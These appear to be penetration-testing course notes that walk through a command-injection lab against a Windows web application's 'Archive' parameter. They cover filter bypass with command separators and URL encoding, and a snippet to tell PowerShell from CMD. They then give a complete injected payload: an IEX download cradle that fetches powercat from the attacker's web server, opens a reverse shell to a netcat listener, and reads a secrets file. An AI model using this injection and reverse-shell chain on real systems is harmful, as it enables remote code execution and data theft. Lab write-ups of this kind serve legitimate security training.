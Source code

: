 
- Web applications should always offer specific APIs or functionalities that use prepared commands for the interaction with the system
- Prepared commands provide a set of functions to the underlying system that cannot be changed by user input.

- Sometimes a web application needs to address a multitude of different cases, and a set of predefined functions can be too inflexible.
	- In these cases, web developers often tend to directly accept user input, then sanitize it.
	- This means that user input is filtered for any command sequences that might try to change the application's behavior for malicious purposes.

DON'T FORGET
- Stringing commands together might require a couple of different options
- There's more ways than just **;**
- **&&**, etc


Also
**NOTE:** URL Encoding
- The payload string may not need to be completely URL encoded.
	- Notably certain characters ( `.`, `-` and `/`) 
Although it's not always the case, this turns out to be important to the functioning of the payload.
- If any of these characters are encoded, the server will parse the URL differently, and the payload may not execute.
- This means we can't apply URL encoding across the whole payload once we've modified it.


Testing form submissions using Burp will help us to understand how requests are formatted.  Check URL in browser to see where request is sent
![](cmdi_archive.png)
- Here, the cmd is sent via the **Archive** parameter
- Allows us to replace w/ Burp or send our own parameters via **curl**
	- **-X** - Change request type to POST
	- **--data** - Specify the data being sent

```bash
curl -X POST --data 'Archive=ipconfig' http://192.168.193.189:8000/archive
	Command Injection detected. Aborting...%!(EXTRA string=ipconfig)
```
- Sadly this doesn't work.
- Can guess that the filter requires 'git' as part of the parameter

Considering we know that the 'git clone' command will work, we can go from there to see how limited we are
```bash
curl -X POST --data 'Archive=git' http://192.168.193.189:8000/archive
# Successfully shows git help

curl -X POST --data 'Archive=git version' http://192.168.193.189:8000/archive
	Repository successfully cloned with command: git version and output: git version 2.36.1.windows.1
# Success

# Attempt to string commands together w/ ;
curl -X POST --data 'Archive=git version%3Bipconfig' http://192.168.193.189:8000/archive 
	An error occured with execution: exit status 1 and git version 2.36.1.windows.1

# URL encode ;
curl -X POST --data 'Archive=git version%3Bipconfig' http://192.168.193.189:8000/archive
	Repository successfully cloned with command: git version;ipconfig and output: git version 2.36.1.windows.1
	
	Windows IP Configuration
	
	
	Ethernet adapter Ethernet0:
	
	   Connection-specific DNS Suffix  . : 
	   IPv4 Address. . . . . . . . . . . : 192.168.193.189
	   Subnet Mask . . . . . . . . . . . : 255.255.255.0
	   Default Gateway . . . . . . . . . : 192.168.193.254
```

- Given this is a Windows computer, determine whether thing's are run through PowerShell or CMD
- Use this code snippet to determine
```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
```bash
# URL Encode  (Can use Burp's Decoder tab)
(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell

# Send
curl -X POST --data 'Archive=git version%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.193.189:8000/archive
	Repository successfully cloned with command: git version;(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell and output: git version 2.36.1.windows.1
	PowerShell
```

- Knowing the webserver's commands will be executed in PowerShell, we can use Powercat to create a reverse shell
```bash
# Copy Powercat to working directory
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

# Serve
python3 -m http.server 80

# Create a nc listener in another tab
nc -nlvp 4444
```

In order to get a reverse shell using Powercat, we'll need to
1. Use a PowerShell download cradle to load the Powercat function contained in the powercat.ps1 script from our web server.
2. Use the _powercat_ function to create the reverse shell with the following parameters:
	- **-c** - Specify where to connect
	- **-p** - Specify the port
	- **-e** - Execute a program.
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.202/powercat.ps1");powercat -c 192.168.45.202 -p 4444 -e powershell
```

```bash
# URL encode it as well
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.202%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.202%20-p%204444%20-e%20powershell' http://192.168.193.189:8000/archive
```

```powershell
# in revshell
dir ..\..\Desktop
type ..\..\Desktop\secrets.txt
```